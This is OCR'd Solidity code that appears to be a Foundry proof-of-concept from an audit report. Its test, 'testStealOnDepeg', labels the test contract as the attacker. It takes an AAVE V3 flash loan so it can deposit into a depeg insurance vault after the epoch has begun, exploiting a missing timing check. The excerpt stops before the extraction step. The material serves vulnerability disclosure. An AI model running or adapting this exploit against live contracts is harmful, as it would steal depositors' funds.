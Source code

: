 ```solidity
      VaultFactoryV2.MarketConfigurationCalldata(
        USDC_TOKEN,
        depegStrike,
        USDC_CHAINLINK,
        UNDERLYING,
        name,
        symbol,
        address(controller)
      )
    );

    begin = uint40(block.timestamp + 1 days);
    end = uint40(block.timestamp + 3 days);
    fee = 50; // 0.5%

    (depegEpochId, ) = factory.createEpoch(depegMarketId, begin, end, fee);
  }

  function testStealOnDepeg() public {
    //this contract is the attacker
    vm.label(address(this), "ATTACKER");

    //legitimate insurance seller deposits 25k USDC into depegCollateral
    vm.label(vm.addr(private_key), "INSURANCE_SELLER");
    deposit_collateral(vm.addr(private_key), 25_000 * (10**6));

    private_key++;
    //legitimate insurance buyer deposits 1000 USD
    vm.label(vm.addr(private_key), "INSURANCE_BUYER");
    deposit_premium(vm.addr(private_key), 1_000 * (10**6));

    //fast forward to begin
    //the vulnerability is that the epoch has started
    //yet anyone can call triggerDepeg and also buy insurance
    //the vulnerability is that since epoch has started
    //no one should be able to deposit into depegPremium
    //but they can
    vm.warp(begin);

    //take a flash loan for the amount that is deposited
    //in depegPremium so we (attacker) can deposit the same amount
    //when block.timestamp is equal to begin (_epochBegin)
    IAAVEV3PoolAddressesProvider poolAddressesProvider = IAAVEV3PoolAddressesProvider(
        0xa97684ead0e402dC232d5A977953DF7ECBaB3CDb
      );
    pool = IAAVEV3Pool(poolAddressesProvider.getPool());
    address[] memory tokens = new address[](1);
    tokens[0] = USDC_TOKEN;
    uint256[] memory amounts = new uint256[](1);
    //we want to borrow the amount that is in depegPremium
    uint256 premium_balance = MintableToken(UNDERLYING).balanceOf(
      address(depegPremium)
    );
    amounts[0] = premium_balance + (premium_balance / 24);
    uint256[] memory modes = new uint256[](1);
    pool.flashLoan(address(this), tokens, amounts, modes, address(this), "", 0);
    //the flashLoan contract will give us the money and callback executeOperation below
  }

  function executeOperation(
    address[] memory,
    uint256[] memory amounts,
    uint256[] memory premiums,
```
